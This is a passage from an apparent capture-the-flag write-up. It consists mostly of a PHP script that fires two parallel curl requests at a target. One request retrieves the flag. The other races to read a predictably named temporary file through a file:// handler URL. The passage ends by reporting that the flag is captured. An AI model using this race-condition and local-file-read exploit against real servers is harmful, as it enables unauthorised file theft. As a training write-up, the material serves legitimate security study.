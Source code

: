 ```php
    curl_setopt($ch_flag, CURLOPT_URL, $url);
    curl_setopt($ch_flag, CURLOPT_POST, true);
    curl_setopt($ch_flag, CURLOPT_POSTFIELDS, $ch_flag_body);
    curl_setopt($ch_flag, CURLOPT_RETURNTRANSFER, 1);

    // initialize curl object for exploiting race condition
    $tmp_file = sha1(md5(date("ms"))); // generate the same file name
    $url_tmp_file = "file:///var/www/html/".$tmp_file;
    $ch_race_handler = [
        'handler' => $url_tmp_file
    ];
    $ch_race_body = http_build_query($ch_race_handler);

    $ch_race = curl_init();
    curl_setopt($ch_race, CURLOPT_URL, $url);
    curl_setopt($ch_race, CURLOPT_POST, true);
    curl_setopt($ch_race, CURLOPT_POSTFIELDS, $ch_race_body);
    curl_setopt($ch_race, CURLOPT_RETURNTRANSFER, 1);

    // multi handler curl object for launching the 2 reqeusts in parallel
    $mh = curl_multi_init();
    curl_multi_add_handle($mh, $ch_flag);
    curl_multi_add_handle($mh, $ch_race);

    // launch requests
    $active = null;
    do {
        $mrc = curl_multi_exec($mh, $active);
    }
    while ($mrc == CURLM_CALL_MULTI_PERFORM);

    while ($active && $mrc == CURLM_OK) {
        if (curl_multi_select($mh) != -1) {
            do {
                $mrc = curl_multi_exec($mh, $active);
            } while ($mrc == CURLM_CALL_MULTI_PERFORM);
        }
    }

    // read response
    $flag = curl_multi_getcontent($ch_flag);
    $file_content = curl_multi_getcontent($ch_race);
    echo("Flag: ".$flag." -> TMP url: ".$url_tmp_file." -> File: ".$file_content."\n"); // for debugging 

    curl_multi_remove_handle($mh, $ch_flag);
    curl_multi_remove_handle($mh, $ch_race);
    curl_multi_close($mh);
}
?>
```
After 1 minute we get the flag:
![image](https://user-images.githubusercontent.com/38787278/94346917-8be2d780-0038-11eb-901f-d3932b81b651.png)
